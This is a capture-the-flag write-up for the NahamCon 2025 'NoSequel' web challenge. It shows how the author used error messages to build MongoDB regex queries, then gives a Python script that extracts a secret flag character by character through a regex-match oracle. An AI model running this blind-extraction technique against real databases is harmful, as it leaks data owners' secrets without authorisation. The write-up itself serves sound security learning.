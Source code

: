 ```yaml
---
layout: load_md
title: The White Circle | Nahamcon 2025 | NoSequel Writeup
desc: Check out our writeup for NoSequel for Nahamcon 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Nahamcon 2025
parent: nahamcon_2025
category: web
challenge: NoSequel
tags: "web, twh, mongodb, regex"
date: 2025-05-31T00:00:00+00:00
last_modified_at: 2025-05-31T00:00:00+00:00
---
```



> Solved by thewhiteh4t

In this challenge we had to extract the flag from a movie DB using MongoDB and a search function, as the name suggests first thought was NoSQL injections, but that was not needed as you will see.

An example search query was given : 


    title: Inception {"year": {"$gt": 1990}} title: {$regex: "The"}

Two collections were available in the dropdown and our flag is in `Flags` collection, because it's a CTF. We can figure out correct query string for Flags collection using the errors and eventually build a working query :  


    Query: a
    Error: Only regex queries are supported on the flag collection
    
    Query: {$regex: "The"}
    Error: Only regex on 'flag' field is supported
    
    Query: flag: {$regex: "The"}
    Result:  No results found matching your search criteria.
    
    Query: flag: {$regex: "flag"}
    Result: Pattern matched
    
    Query: flag: {$regex: "flag{"}
    Result: Pattern matched
    
    Query: flag: {$regex: "flag["}
    Result: No results found matching your search criteria.

So by abusing the regex filter we can extract the flag character by character, to automate the process I wrote a python script, the script will bruteforce each character and when it gets expected response, it will update the flag variable and continue with the next character and so on until it extracts all 32 characters of the flag


    #!/usr/bin/env python3
    
    import string
    import requests
    
    url = 'http://challenge.nahamcon.com:31735/search'
    flag = 'flag{'
    charset = []
    charset.extend(list(string.digits))
    charset.extend(list(string.ascii_lowercase))
    
    while len(flag) != 37:
            for char in charset:
                    payload = {
                            'query': 'flag: {$regex: "^' + flag + char + '"}',
                            'collection': 'flags'
                    }
    
                    rqst = requests.post(url, data=payload)
                    output = rqst.text
    
                    if 'Pattern matched' in output:
                            flag += char
                            print(flag)
    
    print(flag + '}')

As you can see the script generates brute force art with the flag at the end : 


![](https://i.imgur.com/HQrZmZU.png)


**Key Learning and Takeaways**


- Error Messages are Your Friend : When trying to figure out the right query for the "Flags" collection, the server's error messages were gold. They guided us, bit by bit, to understand the exact syntax and structure it expected.
- The Power of Regex : The search function supported regular expressions, and that's where the magic happened. Instead of trying to guess the whole flag at once, we could use regex to ask the database, Does the flag start with 'a' ? How about 'b' ? Does the next character match 'c' ?
- Automation : This challenge screamed for a script. Our Python script systematically found each character, confirming it, and then moving to the next, saving lot of time.



